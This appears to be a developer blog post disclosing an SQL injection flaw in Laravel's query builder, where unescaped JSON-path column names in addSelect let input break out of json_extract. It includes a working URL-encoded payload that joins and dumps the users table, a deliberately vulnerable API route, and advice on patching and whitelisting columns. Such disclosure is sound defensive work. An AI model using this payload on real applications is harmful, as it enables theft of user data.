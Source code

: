 I recently learned that not all query builder functionality in Laravel is "safe".
This means that user input shouldn't be passed directly to it, 
as it might expose your application to SQL injection vulnerabilities.

The past few days it became clear that there is little community knowledge about these unsafe functions. 
Many developers assume, as did I, that the Laravel query builder completely prevents SQL injection attacks.

This blog post aims to raise awareness about what's safe, and what's not.

## An SQL injection vulnerability?

Let's start by mentioning that this vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
While technically we could call this a "vulnerability", 
Laravel developers should know that they also play a role in preventing these kinds of issues.

Let's examine the issue.

Laravel has the ability to manually specify which columns to select on a query.
It also offers the shorthand notation to query JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') <hljs keyword>FROM</hljs> blogs;
```

Instead of manually writing `json_extract`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `json_extract` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail because of syntax errors, but what about the next one?

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, this is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Consumers of this API might only be interested in a few fields, 
that's why we added a `fields` filter.
Something similar to [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets) from the JSON api spec.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

Now we insert our malicious code instead:

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to pass his malicious code to `select` or `addSelect`.
Chances are you're not doing this manually in your project.
Though there are popular packages which provide this functionality for easy API endpoints and URL filtering.
- The entry point table must have a column with JSON data.
Otherwise the `json_extract` function will fail, stopping our query. 
From the entry point though, you can access all data.

{{ ad }}

## Prevention?

As mentioned before, this particular vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
It's always good to keep up to date with the latest Laravel version.

More importantly though, developers should never allow user input directly to specify columns, without a whitelist.
In our previous example, you could prevent this attack by only allowing certain fields to be requested, 
this would prevent the issue completely.

Next, one of our widely-used packages, `spatie/laravel-querybuilder`, 
opened up `addSelect` by design. 
This meant that websites using our package, were vulnerable to the underlying issue.
We immediately fixed it and Freek [wrote about it](*https://murze.be/an-important-security-release-for-laravel-query-builder) in depth.
If you're using our package and unable to update to the latest Laravel version, 
you should immediately update the package.

Finally, the [Laravel docs](*https://laravel.com/docs/5.8/queries) have also been updated 
to warn developers not to pass user input directly to columns when using the query builder.  
